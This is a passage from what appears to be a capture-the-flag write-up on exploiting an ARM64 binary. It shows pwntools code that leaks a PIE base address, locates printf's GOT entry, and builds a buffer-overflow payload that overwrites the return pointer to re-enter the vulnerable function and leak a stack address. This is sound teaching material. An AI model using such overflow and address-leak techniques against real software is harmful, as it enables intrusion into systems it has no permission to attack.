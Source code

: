 ```python
PIE_BASE = PIE_BASE.ljust(8, b"\x00")           # Extend to full 64 bits                                                          
PIE_BASE = u64(PIE_BASE)                        # Unpack 64 bit address
PIE_BASE = PIE_BASE - 0x80a                     # subtract the offset found in GDB to get PIE base                                  
log.success(f"Leaked PIE base : {hex(PIE_BASE)}")                 
# Set the PIE base on the context binary                                                                                            
elf.address = PIE_BASE                                                                                                              
# Now we also know where printf is!                                                                  
log.info(f"{hex(elf.got['printf'])=}")
```

## Leaking a Stack Address

The Debugmen state that this actually isn't needed, since we can find plt@got from PIE and can call `printf(printf_got)` if we wanted to, but let's do it for learning - we might want a stack address to write arguments to for system, say. 

The first step is to execute the buffer overflow in vuln and rop back up to the start of vuln, to repeat the process of leaking an address, this time looking down in memory from $x1 for a stack address, instead of a PIE address. Once we have an address, we can compare this with $sp and establish $sp (or $bp if we want I guess). We add the following to our script  and will use GDB to dereference $x1 and look for more leak-able data at the next printf call:

```python
############ Phase 2 - Leak A Stack Addr  #################       
                                 
# Set up the buffer overflow to call vuln again to leak some more
message = b"A"*0x20 # Size of the buffer                                             
message += b"S"*8   # Saved Frame                                 
message += p64(elf.symbols['vuln'])   # RP overwrite - back into vuln to leak moar                                                  
p.sendlineafter(b"message now: ",message)                         
p.clean()       # Clean up the pipe (main handles the user prompt) and send another name to analysis                                
name = b"C"*4  
p.sendline(name)                                                                                                                    

p.interactive()
```

The problem is that executing the overflow and ropping back up to vuln, we see that the state of $x1 isn't great anymore:
